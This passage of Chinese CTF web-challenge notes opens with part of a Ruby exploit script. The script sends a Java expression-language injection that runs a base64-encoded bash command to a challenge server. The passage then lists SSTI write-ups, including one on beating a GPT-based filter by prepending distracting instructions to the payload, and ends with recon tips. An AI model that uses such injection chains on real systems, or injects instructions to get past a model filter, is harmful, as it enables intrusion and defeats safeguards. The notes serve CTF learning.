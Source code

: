         end
        cn = gen_s("java.lang.Runtime")
        # https://ares-x.com/tools/runtime-exec/
        cmd = gen_s("bash -c {echo,Y2F0IC9mbGFnLSoudHh0}|{base64,-d}|{bash,-i}")
        bcn = gen_s("java.util.Base64")
        exp = <<E.strip!
        [].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{cn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null).exec(#{cmd}).getInputStream()
        E
        r_exp = <<E.strip!
        ${[].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{bcn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null).getClass().getMethods()[#{Array.new(4, []).inspect}.size()].invoke([].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{bcn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null), #{exp}.readAllBytes())}
        E
        url = "http://frog-waf.chals.sekai.team/addContact"
        r = HTTP.post(url, json: {"firstName": "test", "lastName": "test", "description": "test", "country": r_exp})
        puts r
        ```
- [Aspiring Calculator](https://github.com/4n86rakam1/writeup/tree/main/TUCTF_2023/Web/Aspiring_Calculator)
    - C# ASP.NET Razor engine SSTI
- [My First Blog](https://github.com/4n86rakam1/writeup/blob/main/TUCTF_2023/Web/My_First_Blog)
    - 过滤部分关键词后的python flask ssti
- [gpwaf](https://nanimokangaeteinai.hateblo.jp/entry/2024/02/06/051003#Web-115-gpwaf-180-solves)
    - ejs模板注入。题目增加了一个绕过gpt过滤的环节。这种用gpt做过滤的题之前没见过，做的时候发现只要payload带有ejs注入必须的`<%`就报错，完全不知道怎么绕过。后面看了wp意识到这是gpt，不是黑/白名单之类的过滤，在payload前加几句干扰gpt的指令即可（以及不用`<%`的纯ejs注入确实不可能）
    - 其他解法（干扰gpt语句+ejs注入payload）： https://gist.github.com/C0nstellati0n/248ed49dea0accfef1527788494e2fa5#gpwaf
- [更多模板注入payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

1. 当网站没有任何提示时，可以去看看一些敏感目录。

例如：

```
/robots.txt
/.git(这个目录有时候可以直接看，有时候会被forbidden。就算被forbidden了也证明这个目录是存在的，考点可能是git泄露。)
/www.zip（有时候会有网站源码）
```

不过这样蒙目录基本没啥用。建议进一步使用工具扫描目录。不过工具不是万能的，会出现漏扫的情况。尝试把线程调低或者手动检查一些简单的。

2. 永远不要忘记查看源代码以及开发者工具。

很多时候提示都会藏在注释里。还有甚者藏在服务器返回的http报文里，console里。这些都可以用chrome查看。network选项中可以记录报文，如果单纯就是看个报文也没必要专门开个bp。还有最重要的，一些php题包含flag后很有可能包含在注释里，网页直接是看不到的。这时候不看源代码错过flag真的太冤了。

3. 要有bp抓包和改包的习惯。

